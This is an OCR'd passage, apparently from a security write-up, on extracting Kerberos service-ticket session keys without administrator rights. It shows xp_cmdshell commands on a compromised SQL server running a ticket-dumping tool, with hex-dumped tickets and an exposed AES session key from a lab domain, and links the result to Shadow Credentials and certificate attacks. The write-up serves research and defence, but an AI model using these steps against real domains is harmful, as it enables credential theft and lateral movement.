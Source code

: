         0020  03 02 01 02 a1 19 30 17:1b 04 68 6f 73 74 1b 0f<br>
        0030  64 63 30 31 2e 74 65 73:74 2e 6c 6f 63 61 6c a3<br>
        0040  82 05 14 30 82 05 10 a0:03 02 01 12 a1 03 02 01<br>
        0050  07 a2 82 05 02 04 82 04:fe ac 7b 2a 7c f7 1b 3c<br>
        0060  7d 54 78 12 bc 79 55 21:73 c1 cb 56 fd 5a 40 da<br>
        0070  dd 45 00 a4 e2 3b 03 71:f3 6a 34 d1 3c 65 56 b7<br>
        0080  fe 95 d9 f1 2f 5a fe bf:3b ec f0 43 65 e4 0f 6c<br>
        0090  40 8e 38 f5 b2 a5 80 a6:b0 23 fb 7b 8f 96 3d c9<br>
<br>
<br>
As an interesting side note, while Administrator privilege is required to extract TGT session keys or to interact with another users kerberos cache, it is not required to access session keys for service tickets in your own cache. In theory this isn't really much of an advantage but can be used to simplify some attacks or work around controls if you want to utilize existing tools rather than building your own. In most cases this wont be useful for much, but can be handy if you compromise a service running as a virtual service account (for example, xp_cmdshell running under context of nt service\mssqlserver) since they use computer credentials over the network and therefore its kerberos cache will be populted with tickets for the computer account. This could allow extraction of service tickets which can be used by other tools for executing attacks like Shadow Credentials or requesting certificates when relaying isn't available. <br>
<br>
SQL (sa  dbo@master)> xp_cmdshell whoami<br>
output                   <br>
----------------------   <br>
nt service\mssqlserver   <br>
<br>
NULL<br>                     
<br>
SQL (sa  dbo@master)> xp_cmdshell c:\windows\tasks\klist2.exe all<br>
output                                                               <br>              
--------------------------------------------------------------------------------   <br>
ServiceName        : LDAP/DC01.test.local/test.local                               <br>
TargetName         : LDAP/DC01.test.local/test.local                               <br>
FullServiceName    : SQL01$                                                        <br>
DomainName         : TEST.LOCAL                                                    <br>
TargetDomainName   : TEST.LOCAL                                                    <br>
AltTargetDomainName: TEST.LOCAL                                                    <br>
TicketFlags        : (0x40a50000) forwardable renewable preauth delegate           <br>
Session Key        : KeyType 0x12 - AES-256-CTS-HMAC-SHA1-96                       <br>
                   : KeyLength 32 - D1 E5 02 87 C9 91 B1 B5 19 BF 5E 75 99 34 9B 92 0C 0C 54 6F 76 D1 E9 D5 B7 1F DD 4A 72 A0 48 01  <br>  
StartTime          : 9/2/2025 11:29:50                                             <br>
EndTime            : 9/2/2025 21:29:50                                             <br>
RenewUntil         : 9/9/2025 11:29:50                                             <br>
TimeSkew           : -1                                                            <br>
EncodedTicket      : (size: 1244)                                                  <br>
0000  61 82 04 d8 30 82 04 d4:a0 03 02 01 05 a1 0c 1b                              <br>
0010  0a 54 45 53 54 2e 4c 4f:43 41 4c a2 2e 30 2c a0                              <br>
0020  03 02 01 02 a1 25 30 23:1b 04 4c 44 41 50 1b 0f                              <br>
0030  44 43 30 31 2e 74 65 73:74 2e 6c 6f 63 61 6c 1b                              <br>
0040  0a 74 65 73 74 2e 6c 6f:63 61 6c a3 82 04 8d 30                            <br>
0050  82 04 89 a0 03 02 01 12:a1 03 02 01 07 a2 82 04                              <br>
0060  7b 04 82 04 77 a4 be a3:90 d3 39 09 e4 3b 64 24   <br>
<br>
<br>
**Guidance for Defenders**